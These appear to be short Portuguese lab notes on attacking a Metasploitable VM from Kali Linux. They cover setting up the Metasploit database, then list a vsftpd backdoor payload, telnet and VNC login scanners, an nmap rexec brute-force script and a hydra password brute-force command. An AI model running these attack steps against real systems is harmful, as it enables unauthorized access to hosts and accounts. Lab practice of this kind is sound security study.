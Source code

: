  Conectando no Bd (Parte mais chata)

sudo apt install postgresql postgresql-contrib
sudo service postgresql start

msfdb init
----
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf

![image](https://github.com/user-attachments/assets/982f8897-ab85-402c-9a55-758fed0e45ff)


```bash
meu ip: 177.67.136.88
ip kali: 172.24.49.254
ip meta : 192.168.100.102

PAYLOAD cmd/unix/interact = vsft 3.2.4
PAYLOAD auxiliary/scanner/telnet/telnet_login = telnet 23

PAYLOAD scanner/vnc/vnc_login = VNC  ~~~ depois entrar com vncviewer 192.168.100.102:5900 :password

nmap -p 512 --script rexec-brute -v 192.168.100.102 ~~~~ pesquisar rexec_login e usar uns dos logins

┌──(luan㉿192.168.100.102)-[~/Desktop/porta_512_logins]
└─$ hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt -P /home/luan/Desktop/porta_512_logins/passwd_512.txt -vV 192.168.100.102 rexec

``` 
